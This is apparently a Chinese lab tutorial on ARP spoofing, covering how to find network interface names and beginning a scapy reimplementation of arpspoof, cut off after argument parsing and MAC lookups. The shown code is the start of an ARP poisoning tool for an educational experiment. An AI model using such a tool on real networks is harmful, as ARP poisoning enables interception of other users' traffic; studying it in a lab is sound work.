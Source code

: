 Linux系统下通过`ifconfig`命令输出的段落标题就是本地各个网卡的名称，通常比较简短。Windows系统下的`ipconfig`命令并不能显示出可用的网卡名称。Windows系统获取网卡名称的方法是：控制面板->网络和 Internet->网络连接;
![win](https://github.com/DBullet/UCore/blob/master/lab5/boot/win.png)

图中圈出来的长字符串就是Windows系统无线网卡的名称，其他网卡的名称获取方法类似。


通过直接使用arpspoof可以完成本阶段的实验，但这里通过python的scapy包来简单地模拟实现arpspoof。arpspoof源代码可以参考这篇[arpsoof源码分析](https://blog.csdn.net/rectsuly/article/details/63261412?locationNum=5&fps=1)

scapy相关资料：
文档地址：[http://www.secdev.org/projects/scapy/doc/](http://www.secdev.org/projects/scapy/doc/)
中文版教程：[https://github.com/Larryxi/Scapy_zh-cn](https://github.com/Larryxi/Scapy_zh-cn)

scapy实现的arpspoof源代码如下：./codes/arp.py
```python
from optparse import OptionParser
from scapy.all import get_if_hwaddr, getmacbyip, ARP, Ether, sendp
import sys
import time
def parse_arguments():
    usage = 'Usage: %prog [-i interface] [-t target] host'
    parser = OptionParser(usage)
    parser.add_option('-i', dest='interface', help='Specify the interface to use')
    parser.add_option('-t', dest='target', help='Specify a particular host to ARP poison')
    (options, args) = parser.parse_args()
    if options.interface and options.target and len(args):
        arp_poison(options.interface, options.target, args[0])
    else:
        parser.print_help()
        sys.exit(0)

def arp_poison(interface, target, gateway):
    local_mac = get_if_hwaddr(interface)
    target_mac = getmacbyip(target)
    gateway_mac = getmacbyip(gateway)
```